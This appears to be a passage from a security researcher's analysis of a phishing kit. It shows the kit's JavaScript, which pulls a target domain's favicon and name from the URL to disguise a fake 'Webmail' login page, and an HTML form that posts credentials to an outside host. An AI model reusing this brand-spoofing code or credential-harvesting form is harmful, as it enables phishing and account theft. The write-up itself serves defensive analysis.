 ```html
<script>
    const queryString3 = window.location.search;
    const urlParams3 = new URLSearchParams(queryString3);
    const imageBoxx = urlParams3.get('domain');
    ChangeFavicon();

    function ChangeFavicon() {
        var total1 = imageBoxx;
        var link = document.querySelector("link[rel*='icon']") || document.createElement('link');
        link.type = 'image/x-icon';
        link.rel = 'shortcut icon';
        link.href = 'https://www.google.com/s2/favicons?domain=' + total1 + ''; //path to your icon document.getElementsByTagName('head')[0].appendChild(link);} 
</script>
<script>
    const queryString2 = window.location.search;
    const urlParams2 = new URLSearchParams(queryString2);
    const imageBox = urlParams2.get('domain');
    window.onload = function() {
        var total = imageBox;
        document.getElementById('imageBox').src = 'https://www.google.com/s2/favicons?domain=' + total + '';
    };
</script> <img id="imageBox" src="" alt="" width="40" height="40">

```

It also add the domain to the page within the form (After Webmail) by doing the following

```html
<h1 id="top">Webmail&nbsp;<span id="demo"></span> &nbsp; </h1>
<script>
    const queryString1 = window.location.search;
    const urlParams1 = new URLSearchParams(queryString1);
    const demo = urlParams1.get('domain');
    var str = demo;
    document.getElementById("demo").innerHTML = demo;
</script>
```

So for instance, if I navigate to "hxxps://hjvfyktdfky56kdrt5jt5ej5[.]web[.]app/?emailtoken=t.defise@gmail.com&domain=nfl.com", with **domain=nfl.com**, it will show me the logo of the National Football League.

https://www.google.com/s2/favicons?domain=nfl.com 
![](favicons_nfl.png)

1) Analysis of the form

As you can seen the POST is performed towards another domain "hxxps://bremerrapidest[.]xyz"

```html
 <form accept-charset="UTF-8" action="https://bremerrapidest.xyz/merrybe/post.php" class="signin-page-form" method="post" novalidate="novalidate">
```
